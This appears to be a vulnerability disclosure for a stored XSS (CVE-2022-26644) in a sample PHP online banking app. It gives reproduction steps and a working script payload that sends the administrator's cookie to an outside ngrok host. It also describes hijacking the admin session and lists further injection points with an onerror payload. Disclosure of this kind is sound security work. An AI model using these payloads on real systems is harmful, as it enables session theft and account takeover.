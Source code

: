 # Tittle: Online Banking System Stored XSS

# Author: (Erik451)

# Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

# Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

# Version: OBS 1.0

# CVE: CVE-2022-26644
-  **Description:** A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

### Steps to reproduce:
- 1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
- 2- Edite your profile name and paste the payload
- 3- Using a ngrok http server to get the request with the administrator cookie

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


#### **Admin Session**

The administrator goes to the manage accounts menu and will execute the payload in background.
Now we have the admin cookie

![admincookie](https://user-images.githubusercontent.com/47476901/160634422-8cd4820c-447a-457e-8a66-7e3203fc6f27.png)


Edit our cookie with the new admin cookie, reload admin page and now we are administrators.

![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS

Payload used: `<img src="x" onerror=prompt(1)>`

**Announcements Tittle**

-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**

-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	

 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle on the app, the XSS will be executed.
 
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

